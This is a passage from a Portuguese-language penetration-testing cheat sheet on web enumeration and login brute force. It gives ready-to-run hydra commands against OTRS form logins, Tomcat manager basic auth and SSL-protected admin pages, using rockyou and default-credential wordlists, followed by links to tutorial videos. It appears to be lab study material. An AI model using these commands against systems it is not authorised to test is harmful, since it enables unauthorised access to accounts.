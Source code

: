 Dessa forma podemos obter subdomínios identificados em certificados:

```
sslscan https://<hostname>
```

### Enumeracao de usuario e brute force

**OBS: Para alterar o User-Agent deve ser informado o cabeçalho via H:.... Segue exemplo abaixo. Vale ressaltar que para o basic authentication essa feature não é suportada e tem que ser feito ajustes via proxy (no burp, por exemplo)**

**Verificar as credenciais padrão das páginas web (sistemas já conhecidos)**

```
hydra -l root@locahost -P /usr/share/wordlist/rockyou.txt 10.11.1.39 http-post-form "/otrs/index.pl:H=User-Agent\: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv\:88.0) Gecko/20100101 Firefox/88.0':Action=Login&RequestedURL=&Lang=en&TimeOffset=300&User=root@localhost&Password=^PASS^:Login failed!"
```

#### get basic authentication

```
hydra -C /usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt 10.11.1.209 -s 8080 http-get /manager/html
```

onde -s é a porta
http-get é o método a ser utilizado
/manager/html é o diretório pelo qual estamos tentando nos autenticar
e - C colon separated "login:pass" format, instead of -L/-P options

COM SSL

```
proxychains hydra -L usernames.txt -P passwords.txt 10.10.10.7 -s 443 -S http-get /admin/config.php
```

#### post (Form authentication)

```
hydra -l root@locahost -P /usr/share/wordlist/rockyou.txt 10.11.1.39 http-post-form "/otrs/index.pl:Action=Login&RequestedURL=&Lang=en&TimeOffset=300&User=root@localhost&Password=^PASS^:Login failed!"
```

### Referencia em video

![type:video](https://youtube.com/embed/xuJCzHr6ZWY)

[Enumeração diretórios via URL escondidas com ffuf](https://www.youtube.com/watch?v=xuJCzHr6ZWY&t=205s)  
[Enumeração de arquivos escondidos via URL com ffuf](https://www.youtube.com/watch?v=xuJCzHr6ZWY&t=410s)  
[Inspecionando o código da página](https://www.youtube.com/watch?v=xuJCzHr6ZWY&t=660s)  
[Procura por CVE da aplicação](https://www.youtube.com/watch?v=xuJCzHr6ZWY&t=846s)  
[Verificar cabeçalhos da aplicação](https://www.youtube.com/watch?v=xuJCzHr6ZWY&t=920s)  
[Scan de vulnerabilidade com nikto](https://www.youtube.com/watch?v=xuJCzHr6ZWY&t=1000s)  
[Brute Force com hydra par autenticação HTTP básica](https://www.youtube.com/watch?v=xuJCzHr6ZWY&t=1110s)  
[Brute Force com hydra par autenticação HTTP básica com SSL/TLS](https://www.youtube.com/watch?v=xuJCzHr6ZWY&t=1198s)  
[Brute force via requisição POST com Burpsuite](https://www.youtube.com/watch?v=xuJCzHr6ZWY&t=1258s)  
[Brute force via requisição POST com Hydra](https://www.youtube.com/watch?v=xuJCzHr6ZWY&t=1339s)  
